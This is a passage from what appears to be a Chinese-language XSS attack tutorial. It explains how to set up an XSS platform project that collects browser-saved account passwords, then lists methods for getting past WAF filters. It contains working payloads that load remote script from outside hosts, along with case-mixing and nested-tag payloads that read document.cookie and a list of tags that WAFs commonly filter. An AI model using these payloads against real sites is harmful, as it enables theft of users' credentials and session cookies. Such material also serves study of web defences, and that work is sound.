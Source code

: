   ![image-20220801104215899](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220801104215899.png)

  

- 若浏览器保存帐号密码

  浏览器读取帐号密码。根据表单配置XSS平台，然后写入XSS代码。

  确定注册时的表单属性信息：

  ![image-20220801104757064](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220801104757064.png)

  在XSS平台创建一个项目，点击配置，选择获取浏览器保存的账号密码：

  ![image-20220801104653286](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220801104653286.png)

  按照网站的表单信息填写相应的属性：

  ![image-20220801104836681](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220801104836681.png)

  配置完成后，按照XSS平台提供的攻击语句在浏览器执行攻击，比如`<sCRiPt sRC=//xsshs.cn/9TUt></sCrIpT>`。

## 常规WAF绕过思路

常见WAF过滤的标签：

```
<script>  <a>  <p>  <img>  <body> <button>  <var>  <div>  <iframe>  <object> <input> 
<textarea>  <keygen> <frameset>  <embed>  <svg>  <math>  <video>  <audio> <select>
```

### 黑名单（大小写绕过）

过滤单引号、双引号、<、>、on开头的单词等非法字符。

比如过滤script，但是没有考虑大小写：

`<SCRIPT>alert(document.cookie)</SCRIPT>`

### 删除黑名单字段（重复数据绕过）

尝试在 `<script>` 中再嵌套一个 `<script>`绕过：

`<scr<script>ipt>alert(document.cookie)</SCRIPT>`

### 特殊符号干扰

- 引号闭合参数，不要>

  如果对<>进行了过滤，无法使用，可以用引号闭合链接（对于来自XSS平台的含有XSS的恶意链接）。

  比如`<script src='https://xxs8.cc/xxxx'`是有可能成功攻击的。

- `/`干扰

  `</img src="#" onerror="javascript:alert(1)"sbjkdsbfjeb#>`


